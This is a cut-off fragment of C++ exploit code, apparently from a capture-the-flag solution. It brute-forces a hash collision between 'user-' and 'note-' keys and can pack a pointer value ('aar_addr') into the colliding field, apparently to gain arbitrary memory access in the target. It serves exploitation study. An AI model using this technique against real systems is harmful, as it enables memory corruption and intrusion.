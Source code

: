 ```cpp
    fprintf(stderr, "[shim] test-hash1: %lx\n", (unsigned long)hash1);

    // 1) user-%s; 구성
    std::unordered_map<uint64_t, std::string> table;
    table.reserve(PREBUILD_M * 2);

    std::vector<char> buf1(5 + MAX_LEN + 1); // "user-" + string + ";"
    size_t built = 0;

    auto t0 = std::chrono::steady_clock::now();
    while (built < PREBUILD_M) {
        std::string s = rand_token(MAX_LEN);
        size_t n = 0;
        memcpy(&buf1[n], "user-", 5); n += 5;
        memcpy(&buf1[n], s.data(), s.size()); n += s.size();
        buf1[n++] = ';';

        uint64_t hv = H(HF, buf1.data(), n);

        table.emplace(hv, std::move(s));
        ++built;
    }
    auto t1 = std::chrono::steady_clock::now();

    // 2) note-%s-%s; 스트리밍 탐색
    std::vector<char> buf2(5 + MAX_LEN + 1 + MAX_LEN + 1);
    size_t tried = 0;
    while (true) {
        std::string b = rand_token(MAX_LEN);
        std::string a;
        if (aar_addr == 0) {
            a = rand_token(MAX_LEN);    
        }
        else {
            a = "01234567";
            for (int i = 0; i < 6; i++) {
                a.push_back(reinterpret_cast<char*>(&aar_addr)[i]);
            }
        }

        size_t n = 0;
        memcpy(&buf2[n], "note-", 5); n += 5;
        memcpy(&buf2[n], a.data(), a.size()); n += a.size();
        buf2[n++] = '-';
        memcpy(&buf2[n], b.data(), b.size()); n += b.size();
        buf2[n++] = ';';

        uint64_t hv = H(HF, buf2.data(), n);
        auto it = table.find(hv);
        if (it != table.end()) {
            auto t2 = std::chrono::steady_clock::now();

            double t_build = std::chrono::duration<double>(t1 - t0).count();
            double t_stream = std::chrono::duration<double>(t2 - t1).count();
            double total = std::chrono::duration<double>(t2 - t0).count();

            std::string user_hex = to_hex(it->second);
            std::string pw_hex = to_hex(a);
            std::string title_hex = to_hex(b);
            

            fprintf(stderr,
                "\n[+] Collision found\n"
```